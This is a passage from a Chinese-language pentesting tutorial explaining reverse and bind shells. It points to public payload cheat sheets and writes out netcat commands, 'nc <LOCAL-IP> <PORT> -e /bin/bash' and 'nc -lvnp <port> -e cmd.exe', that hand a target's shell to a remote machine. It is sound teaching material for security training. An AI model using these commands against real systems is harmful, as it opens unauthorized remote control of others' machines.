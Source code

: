 Msfvenom 是一个非常强大的工具，因此我们将在专门的任务中更详细地介绍它。 

除了我们已经介绍过的工具之外，还有许多不同语言的一些 shell 存储库。其中最突出的一个是 [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)。 PentestMonkey [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 也很常用。除了这些在线资源，Kali Linux 还预装了位于 `/usr/share/webshells` 的各种 webshell。 [SecLists repo](https://github.com/danielmiessler/SecLists) 虽然主要用于单词列表，但也包含一些用于获取 shell 的非常有用的代码。

### 2.3 Shell 的类型

在高层次上，我们对利用目标的两种 shell 感兴趣：Reverse shell 和 bind shell。

- **Reverse shell（反向 shell）** 是指目标被迫连接到您的计算机。在您自己的计算机上，您可以使用上一个任务中提到的工具之一来设置用于接收连接的侦听器。

反向 shell 是绕过防火墙规则的好方法，防火墙规则可能会阻止您连接到目标上的任意端口。反向 shell 的缺点是当通过 Internet 从一台机器接收 shell 时，您需要配置自己的网络以便接受它。（最经典的例子就是使用阿里的云服务器时要修改安全组规则）


- **bind shell（正向 shell）** 是指在目标上执行代码时，我们直接让其打开一个附加到 shell 上的监听器即端口。端口将会向互联网开放，这意味着您可以连接到代码打开的端口并以这种方式获得远程代码执行的能力。这具有不需要在您自己的网络上进行任何配置的优点，但可能会被保护目标的防火墙阻止。 

作为一般规则，反向 shell 更容易执行和调试，但是，我们将在下面介绍这两个示例。不要太担心这里的语法。我们将在接下来的任务中查看它，请注意以下模拟中 reverse 和 bind shell 之间的区别。


**Reverse Shell 的例子：**

让我们从更常见的反向 shell 开始。以下图为例，在左侧我们有一个反向 shell 侦听器——这是接收连接的地方。右侧是发送反向 shell 的模拟（实际上，这更有可能通过远程网站上的代码注入或类似的方式来完成）把左边的图片想象成你自己的电脑，把右边的图片想象成目标。 

在攻击机器上：
`sudo nc -lvnp 443`

在目标机器上：
`nc <LOCAL-IP> <PORT> -e /bin/bash`

![](https://i.imgur.com/L7xHtHv.png)

请注意，在运行右侧的命令后，侦听器会收到一个连接。当运行 `whoami` 命令时，我们看到我们正在以目标用户的身份执行命令。这里重要的是我们正在监听我们自己的攻击机器，并收到了来自目标的连接。

> nc 的 -e 选项表示在连接成功后要执行的命令，这里表示连接成功之后把自己的 bash 发送到另一端


**bind shell 的例子：**

bind shell 不太常见，但仍然非常有用。 以下图为例，在左侧同样是攻击者的计算机，而右侧依然是我们的模拟目标。但是为了稍微调整一下，这次我们将使用 Windows 目标。
首先，我们在目标上启动一个侦听器——这次我们告诉它连接完毕后执行 cmd.exe。然后，在侦听器启动并运行的情况下，我们从自己的机器连接到新打开的端口。

在目标机上：
`nc -lvnp <port> -e "cmd.exe"`
    
在攻击机上：
`nc MACHINE_IP <port>`

![](https://i.imgur.com/Twbii0P.png)

如您所见，这再次让我们在远程机器上执行代码。请注意，这并非特定于 Windows。 这里要理解的重要一点是目标在监听特定端口，然后我们主动连接到目标的这个端口。

与此任务相关的最后一个概念是交互性。shell 可以是交互式的，也可以是非交互式的。 
